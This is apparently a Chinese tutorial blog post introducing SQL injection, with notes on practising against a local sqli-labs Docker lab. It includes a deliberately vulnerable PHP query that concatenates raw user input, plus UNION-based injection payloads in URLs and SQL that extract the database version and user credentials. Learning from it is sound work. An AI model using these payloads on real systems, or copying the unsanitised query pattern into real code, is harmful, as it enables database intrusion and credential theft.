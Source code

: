 ```yaml
---
layout: post
title: "1.1.1-SQL注入-SQL注入基础-SQL注入原理分析"
date: 2018-06-11
category: web安全
tags: sql注入 
---
```


## SQL注入原理分析

### SQL注入背景介绍-SQL语言介绍
sql 结构化查询语言  
通用的功能极强的关系数据库标准语言  
功能包括查询、操纵、定义和控制四个方面  
不需要告诉SQL如何访问数据库，只要告诉SQL需要数据库做什么 

### SQL注入产生原因
网络技术与信息技术高速发展，B/S模式具有界面统一，使用简单，易于维护，扩展性好，共享度高等优点，B/S模式越来越多的被应用于程序编写中。  

1. B/S建立在互联网，对安全控制能力较弱
2. 开发人员水平和经验参差不齐，没有在编写代码时对用户的输入数据或者页面携带信息进行必要的合法性判断。  

攻击者利用这个机会**提交一段数据库查询代码**，根据程序返回的结果，就可以获得一些数据库信息。

### SQL注入核心原理

SQL注入是一种将恶意的SQL代码**插入或添加到应用（用户）的输入参数**的攻击，攻击者探测出开发者编程过程中的漏洞，利用这些漏洞，巧妙的**构造SQL语句**对数据库系统的内容进行直接**检索或修改**。


灵活的SQL查询语句+用户输入的数据带入了SQL语句=用户直接操作数据库->**SQL注入漏洞**

	select version();
	select id from where id=1;
	select id from jobs where id=1 union select version();

	select id.location from jobs where id=1 union select 1,version();  // 1是占位

用户输入可控，代码对用户输入进行了拼接，带入SQL语句，产生SQL注入漏洞

http://test.com/index.php?id=1*UNION SELECT 1,version()#*


	$id=$_GET['id'];// id没做处理
	$sql="SELECT * FROM users WHEre id='$id' LIMIT 0,1"

	select id,location from jobs where id=1 union select 1,version()#


<br/>

	docker ps --help
	docker ps -a
	docker exec -it <id> /bin/bash
	mysql
	show databases;
	use security;
	show tables;

	select * from users;
	select username from users where id=1;
	select username,password from users where id=1;

	select 1;
	select 1123;
	select version();
	select username,password from users where id=1 union select version();
	select username,password from users where id=1 union select 1,version();

	select * from users where id=1 limit 0,1;
	select * from users where id=-1 union select 1,2,version()# limit 0,1;

	// 浏览器
	http://127.0.0.1:90/Less-1/?id=1%27%20union%20select%201,2,3%23
	?id=1' union select 1,2,3
	// %23 #

	http://127.0.0.1:90/Less-1/?id=-1%27%20union%20select%201,version(),3%23
	?id=-1' union select 1,version(),3
	// 需要让它出个错

	// 控制台
	// 退出mysql
	exit

	cd /var/www/html/Less-1
	cat index.php
	vi index.php
	// 编辑
	echo $sql
	:wq


todo sqli-labs源码地址

	docker ps -a
	docker exec -it <id> /bin/bash
	cd /var/www/html/Less-1


